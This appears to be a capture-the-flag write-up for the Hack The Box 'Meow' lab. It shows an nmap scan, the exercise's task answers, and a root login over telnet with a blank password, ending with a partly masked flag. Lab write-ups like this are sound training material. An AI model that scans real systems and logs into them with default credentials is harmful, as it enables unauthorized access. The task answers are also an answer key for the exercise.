 ```yaml
---
title: "Meow"
date: 2022-09-22 
categories: [HackTheBox, Starting Point]
tags: [enumeration,telnet,penetration tester level 1,nmap,openvpn]     # TAG names should always be lowercase
---
```

Connect to Starting Point VPN before starting the machine:
```
└─$ sudo openvpn starting_point_YrnCollo.ovpn
```
## Nmap results
```
└─$ nmap -sV -sC -T4 10.129.57.107               
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-22 14:22 EAT
Nmap scan report for 10.129.57.107
Host is up (0.31s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT      STATE    SERVICE        VERSION
23/tcp    open     telnet         Linux telnetd
1057/tcp  filtered startron
3370/tcp  filtered satvid-datalnk
32770/tcp filtered sometimes-rpc3
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 64.21 seconds
```
### Task 1
What does the acronym VM stand for?

Answer: `Virtual Machine`

### Task 2
What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell.

Answer: `Shell`

### Task 3
What service do we use to form our VPN connection into HTB labs?

Answer: `openvpn`

### Task 4
What is the abbreviated name for a `'tunnel interface'` in the output of your VPN boot-up sequence output?

Answer: `Tun`

### Task 5
What tool do we use to test our connection to the target with an ICMP echo request?

Answer: `ping`

### Task 6
What is the name of the most common tool for finding open ports on a target?

Answer: `nmap`

### Task 7
What service do we identify on port 23/tcp during our scans?

Answer: `Telnet`

### Task 8
What username is able to log into the target over telnet with a blank password?

Answer: `root`

```
─$ telnet 10.129.57.107                                                                                                                                              1 ⨯
Trying 10.129.57.107...
Connected to 10.129.57.107.
Escape character is '^]'.

  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█

Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 22 Sep 2022 11:26:05 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             147
  Users logged in:       0
  IPv4 address for eth0: 10.129.57.107
  IPv6 address for eth0: dead:beef::250:56ff:feb9:f05

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~#
```
## Proof/flags
### ifconfig 
```
root@Meow:~# ifconfig
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.57.107  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 dead:beef::250:56ff:feb9:f05  prefixlen 64  scopeid 0x0<global>
        inet6 fe80::250:56ff:feb9:f05  prefixlen 64  scopeid 0x20<link>
        ether 00:50:56:b9:0f:05  txqueuelen 1000  (Ethernet)
        RX packets 2663  bytes 196762 (196.7 KB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1718  bytes 99654 (99.6 KB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 0  bytes 0 (0.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

### Root flag
```
root@Meow:~# cat flag.txt 
b40abdfe****66***c61ecba***a4c19
```
